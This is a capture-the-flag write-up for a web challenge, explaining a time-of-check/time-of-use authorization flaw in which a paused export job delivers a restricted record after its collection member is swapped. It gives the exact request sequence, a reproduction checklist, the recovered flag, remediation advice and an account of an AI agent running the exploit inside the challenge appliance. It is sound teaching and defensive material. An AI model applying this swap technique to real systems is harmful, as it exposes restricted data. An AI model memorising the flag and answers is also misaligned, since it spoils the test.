

# The Portal — Restricted Delivery

## Challenge summary

**Category:** Web  
**Points:** 200  
**Target:** The isolated Records Workspace in the HX-1977 challenge appliance  
**Result:** Solved and accepted by the case board

The goal was to recover a restricted incident record and retain the acquisition receipt contained in the exported bytes. The assigned account was a **collection author**, not a Records Office reader. This distinction was central to the challenge: seeing a document identifier in the directory, or adding that identifier to a collection, was not supposed to grant access to the document's content.

The vulnerability was a **time-of-check/time-of-use (TOCTOU) authorization flaw** in the export workflow. The application approved an immutable preview of an allowed document, but the delivery worker later reopened a mutable collection reference. If collection membership changed while an export was paused, the worker delivered the collection's new member without confirming that it was the version covered by the approval.

This allowed a valid approval for an ordinary document to be reused to export the restricted incident record.

## Flag and retained evidence

```text
flag{portal_1285d111fcc3511d}
```

The recovered incident record contained:

```text
Incident HX-1977
Custodian: Records Office
Evidence ledger: aa7273b446af3fcc3237ee05
The export delivery log is the acquisition record.

Acquisition receipt
{"ok": true, "flag": "flag{portal_1285d111fcc3511d}", "notice": "Submit this flag on the case board. Your case handover becomes available there after solve or skip."}
```

The exact delivered response was saved as `portal-job-11-delivery.txt`.

```text
SHA-256: 3640A5148AA1A60B8293AAC052F0C4FD93EBCD8B0BE3F1ED2B174C1A8A59C640
```

The receipt was also extracted into `portal-acquisition-receipt.json`. Keeping the original response is important because the challenge asked for the receipt **from the delivered bytes**, not merely a copied flag.

## Beginner-friendly background

### Authentication and authorization are different

Authentication answers: **Who are you?**

Authorization answers: **What are you allowed to do?**

The assigned user was successfully authenticated and could author collections. That did not mean the user was authorized to read every document listed in the directory. The application intentionally exposed document metadata to help authors organize collections while protecting document content separately.

### What is TOCTOU?

TOCTOU means **time of check, time of use**. It occurs when a program validates one object or state, waits or performs more work, and later uses a different or changed state without validating it again.

In this challenge:

1. The application checked and approved an allowed document.
2. The export was paused.
3. The underlying collection membership changed.
4. The delivery worker followed the collection reference again.
5. It exported the new restricted member using the old approval.

The approval was valid, but it was valid for the wrong bytes.

## Evidence supplied by the application

The challenge landing page provided three retained resources:

- the employee workspace;
- the client API contract at `/portal/api.json`;
- the support archive at `/portal/support.zip`.

The support archive contained `README.txt`, `models.sql`, `release-notes.txt`, `support-requests.txt`, and `delivery.log`.

### API contract

The contract described the following workflow:

```text
POST  /portal/session
GET   /portal/documents
GET   /portal/documents/{id}/content
POST  /portal/collections
PATCH /portal/collections/{id}
POST  /portal/references
POST  /portal/previews
POST  /portal/approvals
POST  /portal/jobs
POST  /portal/jobs/{id}/interrupt
POST  /portal/jobs/{id}/resume
POST  /portal/jobs/{id}/dispatch
GET   /portal/jobs/{id}
GET   /portal/jobs/{id}/download
```

The important detail was that an export job stored both a **reference** and an **approval**. A reference pointed to a collection, while the collection's member could be edited later.

### Database model

The retained schema separated the objects involved in the workflow:

```sql
CREATE TABLE document_version (
  id TEXT PRIMARY KEY,
  document_id TEXT,
  digest TEXT,
  content BLOB
);

CREATE TABLE collection (
  id TEXT PRIMARY KEY,
  author TEXT,
  revision INTEGER,
  member_document TEXT
);

CREATE TABLE workspace_reference (
  id TEXT PRIMARY KEY,
  collection_id TEXT
);

CREATE TABLE preview (
  id TEXT PRIMARY KEY,
  reference_id TEXT,
  version_id TEXT,
  digest TEXT
);

CREATE TABLE approval (
  id TEXT PRIMARY KEY,
  preview_id TEXT,
  signature TEXT
);

CREATE TABLE export_job (
  id TEXT PRIMARY KEY,
  reference_id TEXT,
  approval_id TEXT,
  state TEXT,
  delivery_cursor INTEGER
);
```

Notice the mismatch:

- a preview stored an immutable `version_id` and `digest`;
- an export job stored the mutable `reference_id`, rather than the approved `version_id` as its delivery source.

That mismatch suggested the delivery worker might approve one version but later resolve another.

### Support notes

Several retained notes reinforced this theory:

- directory visibility and collection membership do not grant document reads;
- imported collections preserve catalog linkage for future updates;
- immutable previews remain available for audit;
- interrupted deliveries preserve their approval and cursor;
- the worker opens the collection reference when a delivery resumes.

The final point was the key. If the worker reopened the collection reference after a pause, a membership change between approval and resume could change the delivered document.

## Step 1 — Open the assigned workspace

The previous Recon challenge exposed a case handover receipt. Its receipt value was entered into the **Case handover** field, and **Open assigned workspace** was selected.

The directory returned three documents:

| Document ID | Title | Classification |
|---|---|---|
| `brief-d178a81cb6` | Quarterly onboarding brief | workspace |
| `minutes-d178a81cb6` | Migration meeting minutes | workspace |
| `incident-d178a81cb6` | HX-1977 restricted incident record | restricted |

These generated identifiers were specific to this assigned workspace. The presence of the restricted identifier was only metadata exposure; it did not prove that its content could be read.

## Step 2 — Confirm the intended access boundary

Before attempting an exploit, both a permitted and a restricted direct read were tested using the same workspace bearer token.

The allowed request succeeded:

```http
GET /portal/documents/brief-d178a81cb6/content
Authorization: Bearer <WORKSPACE_TOKEN>
```

```text
HTTP 200
Welcome to the archive programme. Delivery window: Friday.
```

The restricted request was correctly denied:

```http
GET /portal/documents/incident-d178a81cb6/content
Authorization: Bearer <WORKSPACE_TOKEN>
```

```json
HTTP 403
{"detail":"document read denied"}
```

This was an essential control. It demonstrated that the final disclosure was not caused by knowing the incident object's identifier and was not ordinary document access.

## Step 3 — Reproduce a legitimate export

An ordinary export was completed first to understand the intended state machine.

1. Create collection `collection-1` with member `brief-d178a81cb6`.
2. Import it as `reference-2`.
3. Create preview `preview-3`.
4. Approve it as `approval-4`.
5. Queue export `job-5`.
6. Dispatch the job.
7. Download the result.

The completed job reported:

```json
{
  "id": "job-5",
  "reference": "reference-2",
  "approval": "approval-4",
  "state": "complete",
  "cursor": 59,
  "delivered_version": "brief-d178a81cb6:1"
}
```

The downloaded bytes were the expected onboarding brief. This established a clean baseline: preview, approval, queue, dispatch, and download worked normally for an allowed document.

## Step 4 — Build an approved export for an allowed document

A second collection was created for the exploit, initially using the same allowed member:

```json
POST /portal/collections
{
  "title": "Restricted incident acquisition",
  "member": "brief-d178a81cb6"
}
```

The application returned `collection-6` at revision `1`.

The collection was then imported and approved through the ordinary workflow:

| Object | Observed ID | Meaning |
|---|---|---|
| Collection | `collection-6` | Initially contained the allowed brief |
| Reference | `reference-7` | Linked to the collection |
| Preview | `preview-9` | Immutable preview of the allowed brief |
| Approval | `approval-10` | Valid approval for that preview |
| Export job | `job-11` | Queued with the reference and approval |

The queued job state was:

```json
{
  "id": "job-11",
  "reference": "reference-7",
  "approval": "approval-10",
  "state": "queued",
  "cursor": 0
}
```

At this point everything was legitimate. The approval covered the allowed brief.

## Step 5 — Pause the delivery

The **Pause delivery** action called the documented `interrupt` operation. The job changed to:

```json
{
  "id": "job-11",
  "reference": "reference-7",
  "approval": "approval-10",
  "state": "waiting",
  "cursor": 0
}
```

The zero cursor was useful because no bytes had yet been delivered. The approval and reference were preserved while the job waited.

## Step 6 — Change the collection member

While the approved job was paused, the collection member was changed from the allowed brief to the restricted incident record. The collection API used optimistic concurrency, so the current revision had to be supplied:

```http
PATCH /portal/collections/collection-6
Authorization: Bearer <WORKSPACE_TOKEN>
Content-Type: application/json

{
  "member": "incident-d178a81cb6",
  "revision": 1
}
```

The application accepted the edit and returned:

```json
{
  "id": "collection-6",
  "title": "Restricted incident acquisition",
  "member": "incident-d178a81cb6",
  "revision": 2
}
```

Optimistic concurrency prevented accidental lost updates, but it did not protect the authorization decision. The application still had an approved job whose reference now resolved to different content.

## Step 7 — Resume and dispatch the old approved job

The original job was resumed without creating a new preview or approval:

```json
{
  "id": "job-11",
  "reference": "reference-7",
  "approval": "approval-10",
  "state": "resumed",
  "cursor": 0
}
```

It was then dispatched. The result proved the vulnerability:

```json
{
  "id": "job-11",
  "reference": "reference-7",
  "approval": "approval-10",
  "state": "complete",
  "cursor": 136,
  "delivered_version": "incident-d178a81cb6:1"
}
```

The approval had been created for the brief, but the completed job reported the restricted incident version as the delivered object.

## Step 8 — Download and preserve the result

The completed job was downloaded through:

```http
GET /portal/jobs/job-11/download
Authorization: Bearer <WORKSPACE_TOKEN>
```

The response contained the restricted record, evidence ledger, acquisition receipt, and flag. The response body was saved unchanged and hashed with SHA-256. The embedded flag was then submitted on the case board and accepted, increasing the solved count from 1/19 to 2/19 and the score from 100 to 300 points.

The Portal case handover was subsequently recovered:

```json
{
  "case": "portal",
  "receipt": "7afa14b55d9d208ceb59eff40bf2ba22b1b8649c74efb9c0a4fe9f4fd5a5b4e6",
  "revision": 5
}
```

## Vulnerable state transition



## Root cause

The application correctly implemented several individual controls:

- restricted direct reads returned `403`;
- previews recorded a version and digest;
- approvals were signed and scoped to the workspace;
- collection updates required a revision number;
- foreign workspace objects were not accepted.

The failure occurred in how those controls were connected.

The export job retained:

```text
reference_id + approval_id
```

The approval was associated with:

```text
preview_id -> approved version_id + digest
```

At delivery time, the worker used the mutable reference to discover what to export instead of using the approved immutable version. It did not verify that the resolved version and digest still matched the preview covered by the approval.

This is primarily a TOCTOU flaw and can also be described as an incorrect authorization check. Relevant weakness categories include:

- **CWE-367 — Time-of-check Time-of-use Race Condition**;
- **CWE-863 — Incorrect Authorization**.

No high-speed race was necessary. The application's documented pause/resume state made the vulnerable window deterministic and easy to reproduce.

## Why the other observations were not enough

Several facts looked interesting but did not independently prove a disclosure:

- Knowing `incident-d178a81cb6` did not grant content access.
- Seeing restricted metadata in the directory was expected for collection authors.
- Adding the restricted identifier to a collection did not itself return the content.
- A valid approval alone did not prove which bytes were delivered.

The decisive evidence was the combination of:

1. direct access to the incident content returning `403`;
2. the approval being created while the collection contained the allowed brief;
3. the collection changing only after the export was paused;
4. the completed job reporting `delivered_version: incident-d178a81cb6:1`;
5. the download endpoint returning the restricted record and its receipt.

## Remediation

The safest fix is to make the export source immutable when approval occurs.

### Recommended design

1. Resolve the collection member during preview.
2. Store the exact `version_id` and content digest in the preview.
3. Sign the workspace, reference, version, and digest as part of the approval.
4. Copy the approved `version_id` and digest into the queued export job.
5. Deliver only that immutable version.
6. Before dispatch, recompute or retrieve the digest and compare it with the approved digest.
7. If the collection or reference now resolves to a different version, reject the job and require a new preview and approval.

Conceptually:

```text
delivered_version == approved_preview.version_id
SHA256(delivered_bytes) == approved_preview.digest
```

Both conditions should be mandatory.

### Additional hardening

- Store the collection revision in the preview and export job.
- Invalidate pending jobs when collection membership changes.
- Re-run document authorization at delivery time for the exact version being sent.
- Record the approved and delivered version IDs in an append-only audit log.
- Add tests for mutation during queued, waiting, and resumed states.
- Treat pause/resume as an authorization boundary, not only a transport feature.

## How AI assistance was used

AI assistance was used as an investigation and automation aid inside the designated challenge appliance. Authentication itself was completed manually by the player.

The AI used Playwright MCP to:

1. navigate the case board and Records Workspace;
2. capture accessibility snapshots of the UI;
3. inspect the workspace's network requests and API responses;
4. download the provided support archive;
5. read the public client contract and retained support evidence;
6. compare the client workflow with the database model and delivery log;
7. identify the likely mutable-reference/immutable-approval mismatch;
8. reproduce an ordinary export as a control;
9. verify that direct access to the restricted record returned `403`;
10. execute the pause, membership update, resume, dispatch, and download sequence;
11. save the delivered bytes and calculate their SHA-256 hash;
12. submit the flag and verify that the challenge was recorded as solved.

The AI did not guess the flag or obtain it from an external source. The flag was extracted from the verified bytes returned by the vulnerable delivery endpoint. No external credentials, unrelated systems, or out-of-scope hosts were used.

AI was especially useful for correlating evidence spread across several layers:

- the browser UI showed the visible state transitions;
- the API contract explained the available operations;
- `models.sql` showed which objects were mutable or immutable;
- the release notes described preserved references and previews;
- `delivery.log` revealed when the worker reopened the reference;
- the network responses proved what version was ultimately delivered.

The final conclusion was based on repeatable application behavior and retained evidence, not solely on an AI-generated hypothesis.

## Reproduction checklist

For a concise repeat:

1. Open the assigned workspace with the prior case handover.
2. Confirm the restricted document is visible only as metadata.
3. Confirm direct content access returns `403`.
4. Create a collection containing an allowed document.
5. Import, preview, approve, and queue it.
6. Pause the queued job at cursor `0`.
7. Update the same collection to contain the restricted document.
8. Resume the original job without producing a new preview or approval.
9. Dispatch the job.
10. Verify that `delivered_version` is the restricted incident version.
11. Download and preserve the response bytes.
12. Extract and submit the flag from the acquisition receipt.

## Conclusion

The Records Workspace enforced direct document access correctly but failed to preserve the relationship between the approved preview and the delivered content. A collection author could approve an allowed member, pause the job, replace that member with a restricted document, and resume the old job. Because the worker dereferenced the mutable collection at delivery time, it released bytes that had never been previewed or approved for that account.

The successful exploit was therefore not an object-ID bypass. It was an authorization-binding failure across the preview, approval, and delivery lifecycle.
